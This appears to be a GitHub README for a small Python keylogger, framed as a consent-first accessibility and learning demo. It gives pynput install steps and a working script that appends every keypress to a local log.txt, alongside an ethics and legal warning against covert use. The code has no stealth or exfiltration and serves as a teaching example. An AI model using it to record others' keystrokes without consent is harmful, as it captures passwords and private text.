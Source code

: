 # KeyLogger
To capture the keyboard events 

# Keyboard-event-demo (Consent-first Accessibility / Learning Demo)

**Purpose**  
A small educational demo showing how to capture keyboard events with `pynput` for accessibility research and debugging. This project is intended for **legitimate, consensual** use only (your own machine or systems where you have explicit permission).

**Important — Ethics & Legal**  
Do NOT use this software to record other people's input without explicit, informed, written consent. Capturing keystrokes covertly may violate laws and privacy rights.

**How to use (safe demo)**  

1.install the python

2.Open command prompt

            pip install pynput 

3.save file in notepad by keylogger.py

            from pynput.keyboard import Listener
            def log_keystroke(key):
                key=str(key).replace('"',"")# Remove quotes
                if key =="Key.space":
                    key=" " #Convert "Key.space" to actual space
                elif key=="Key.enter":
                    key="\n" #Convert enter key to new line
                with open("log.txt","a")as file:
                    file.write(key)
            with Listener(on_press=log_keystroke)as listener:
                listener.join()

 4. in cmd 

            python .\keylogger.py


know what you type anything that save in log.txt file

 5. open the file in cmd
    
            notepad log.txt


*** Thats why use the virtual keyboard ***
